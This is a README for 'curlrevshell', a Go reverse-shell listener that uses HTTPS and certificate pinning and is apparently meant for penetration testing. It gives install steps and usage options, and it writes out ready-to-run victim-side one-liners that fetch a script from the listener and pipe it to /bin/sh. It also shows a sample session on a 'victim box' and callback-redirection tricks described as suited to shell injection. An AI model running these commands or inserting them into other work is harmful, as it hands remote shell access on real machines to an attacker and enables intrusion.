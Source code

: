 cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via double cURL
- Self-signed TLS certificate, plus certificate pinning
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color
- IPv6-ready
- Non-zero [documentation](./doc/README.md)

For legal use only

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@dev
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@dev
go: downloading github.com/magisterquis/curlrevshell v0.0.1-beta.5
go: downloading golang.org/x/sync v0.7.0
go: downloading golang.org/x/net v0.24.0
go: downloading golang.org/x/tools v0.20.0
go: downloading github.com/magisterquis/goxterm v0.0.1-beta.1
go: downloading golang.org/x/sys v0.20.0
go: downloading golang.org/x/text v0.14.0
$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:

curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh

01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Input connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Output connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Shell is ready to go!
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL

Options:
  -callback-address address
    	Additional callback address or domain, for one-liner printing (may be repeated)
  -callback-template template
    	Optional callback template file, used if it exists
  -icanhazip
    	Query icanhazip.com for a callback address
  -ipv6-one-liners
    	Also print callback one-liners with IPv6 addresses
  -listen-address address
    	Listen address (default "0.0.0.0:4444")
  -log file
    	Optional file to which to write JSON logs
  -no-timestamps
    	Don't print timestamps
  -print-default-template
    	Write the default template to stdout and exit
  -prompt string
    	Terminal prompt; don't forget a trailing space (default "> ")
  -serve-files-from directory
    	Optional directory from which to serve static files
  -tls-certificate-cache file
    	Optional file in which to cache generated TLS certificate (default "/home/you/.cache/sstls/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate low PIDs.
`/{anythingelse}` | Either serves up files of 404's if nobody gave it `-serve-files-from` (which doesn't actually have to be a directory).

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default template is
[script.tmpl](internal/hsrv/script.tmpl).  It's re-read every time it's needed,
so feel free to change it as often as you'd like.

Callback Address
----------------
Most of the time if you can connect to the server to grab a script (i.e. `/c`)
the server will work out the right callback address.  Most of the time.  For
those times which aren't Most, giving a URL with either a `c2` parameter to `/c`
or a `c2:` header should clear things up.  This is clearer with an example:

### As a URL parameter
The Request for a script:
```sh
curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c?c2=kittens.com'
```
The `curl` command in the script:
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com/i/1upal29kpq9g7 </dev/null 2>&0 |
```
With `?c2=kittens.com` it would have been `https://192.168.1.10:4444` instead.

The server also tells us that the script was generated for `kittens.com`:
```
22:08:20.488 [192.168.1.20] Sent script: ID:1upal29kpq9g7 URL:kittens.com
```

### As a header
Sometimes it's a pain to put `?` and such in shell injection.  Headers are
easier.  We'll also add a port this time.
```sh
curl -Hc2:kittens.com:22 -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c'
```
Weird flex, but it worked.
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com:22/i/2v0ohzqf5kw1t </dev/null 2>&0 |
```
Server agrees
```
22:14:13.902 [192.168.1.20] Sent script: ID:2v0ohzqf5kw1t URL:kittens.com:22
```

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.
